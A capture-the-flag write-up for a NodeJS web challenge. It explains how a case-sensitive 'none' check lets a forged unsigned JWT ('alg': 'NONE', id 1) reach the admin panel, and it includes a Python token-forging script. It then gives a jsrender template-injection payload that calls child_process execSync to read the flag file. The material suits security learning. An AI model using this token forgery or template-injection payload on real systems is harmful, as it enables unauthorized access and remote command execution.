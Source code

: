 ```yaml
---
title: CyberApocalypse2023 - Didactic Octo Paddles - Writeup 
date: 2023-03-25 -500
categories: [ctf]
tags: [cyberapocalypse2023, writeup, web]
---
```


> You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river. You must hack into the paddle shop's system to obtain information on the relic's location. Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.

## Looking around

The website we get to explore is a NodeJS application. Let's start by registering a new user.

![pic-1](/assets/paddles/2-register.png)

Once logged in, we are given a JWT token that decodes to:

```javascript
{ "alg": "HS256", "typ": "JWT"} {"id": 2, "iat": 1679790190, "exp": 1679793790 }
  ```

Nothing `sus`picious here, really, though this token will play a key role later on in this challenge.

Other than that, we can add and remove items from the cart: 

![pic-2](/assets/paddles/3-logged-user.png)

Again, nothing too interesting. At this point we have a basic idea of how the website works. Let's take a look at the code.
## JWT Authentication 

The application uses two types of `middleware` functions to process requests before it returns a route:
* `AuthMiddleware` is used for all cart and shopping related routes,
* `AdminMiddleware` is used for `/admin` route.

Now, `AuthMiddleware` is a simple `jwt.verify()` operation so there is not much we can do here. 

However, `AdminMiddleware` looks rather interesting:

```javascript
const AdminMiddleware = async (req, res, next) => {
    try {
        const sessionCookie = req.cookies.session;
        if (!sessionCookie) {
            return res.redirect("/login");
        }
        const decoded = jwt.decode(sessionCookie, { complete: true });

        if (decoded.header.alg == 'none') {
            return res.redirect("/login");
        } 
        else if (decoded.header.alg == "HS256") {
            const user = jwt.verify(sessionCookie, tokenKey, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res.status(403).send("You are not an admin");
            }
        } 
        else {
            const user = jwt.verify(sessionCookie, null, {
                algorithms: [decoded.header.alg],
            });
            if (
                !(await db.Users.findOne({
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
    } catch (err) {
        return res.redirect("/login");
    }
    next();
};

```
Let's break it down. 
```javascript
if (decoded.header.alg == 'none') {
    return res.redirect("/login");
} 
```
JWT token header contains `alg` parameter which specifies the algorithm used to verify the signature of the token. However, JWT also has a special type of "algorithm" - `none` - which means that the tokens are unsigned and so there is no need for a token to have a signature. Obviously, this is a major security risk - you can't verify a token without the signature. Good thing the application forbids that! 

```javascript
 else if (decoded.header.alg == "HS256") {
    const user = jwt.verify(sessionCookie, tokenKey, {
        algorithms: [decoded.header.alg],
    });
    if (
        !(await db.Users.findOne({
            where: { id: user.id, username: "admin" },
        }))
    ) {
        return res.status(403).send("You are not an admin");
    }
} 
```

If the algorithm is set to `HS256`, the application uses it to verify the signature and then queries user's id to find `admin` user.

```javascript
else {
    const user = jwt.verify(sessionCookie, null, {
        algorithms: [decoded.header.alg],
    });
    if (
        !(await db.Users.findOne({
            where: { id: user.id, username: "admin" },
        }))
    ) {
        return res
            .status(403)
            .send({ message: "You are not an admin" });
    }
}
```
Finally, if any other algorithm is provided in the JWT header, it is directly used to verify the token and query `admin` user as before.

## Bypassing algorithm restrictions

The trick here is to bypass the `none` algortihm check. This would force the application to use `none` algorithm to "verify" the signature - in practice, it would simply not check the signature at all, meaning we could forge any token we want!

Note that the first `if` checks for `"none"` string only, so if we used `None` or `NONE`, it would fail. Let's modify our token then:

```javascript
{ "alg": "NONE", "typ": "JWT"} {"id": 1, "iat": 1679790190, "exp": 1679793790 }
  ```
Notice how `id` is set to 1. When we first registerd, we were given the `id` of 2, so it is safe to assume `admin` user has the first one.

Now we have to base64 encode the token. Here is a short script to do it it in python:

```python
from base64 import urlsafe_b64encode

header = '{ "alg": "NONE", "typ": "JWT"}'
payload = '{"id": 1,"iat": 1679790190,"exp": 1679793790}'

token = urlsafe_b64encode(header.encode()).decode() + "." + urlsafe_b64encode(payload.encode()).decode() + "." 
print(token)
# eyAiYWxnIjogIk5PTkUiLCAidHlwIjogIkpXVCJ9.eyJpZCI6IDEsImlhdCI6IDE2Nzk3OTAxOTAsImV4cCI6IDE2Nzk3OTM3OTB9.

```
At the topic of JWT token, I really recommend trying [`jwt-tool`](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)! You can run it with `-T` flag to change `id` to 1 and then with `-X a` to perform `none` attack. 

Anyhow, once we change the token value, we can finally access `/admin` route:


![pic-2](/assets/paddles/4-admin.png)

## Admin panel

A quick look at `/admin` route code tells us it uses `jsrender` to render all active users on the screen.

```javascript
router.get("/admin", AdminMiddleware, async (req, res) => {
    try {
        const users = await db.Users.findAll();
        const usernames = users.map((user) => user.username);

        res.render("admin", {
            users: jsrender.templates(`${usernames}`).render(),
        });
    } catch (error) {
        console.error(error);
        res.status(500).send("Something went wrong!");
    }
});
```

Whenever an application is using some type of templating engine, it is worth checking for `SSTI` (Server Side Template Injection). A quick google tells us `jsrender` templating format is {% raw %} ``` {{:<code>}}``` {% endraw %} Let's try register the following user:

![pic-2](/assets/paddles/5-register-1.png)

Now onto the admin panel:

![pic-2](/assets/paddles/5-register-1-out.png)

Success! From here, it's only a matter of payload:


{% raw %}
```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```
{% endraw %}


And we got the flag:

![pic-2](/assets/paddles/6-flag.png)

`HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`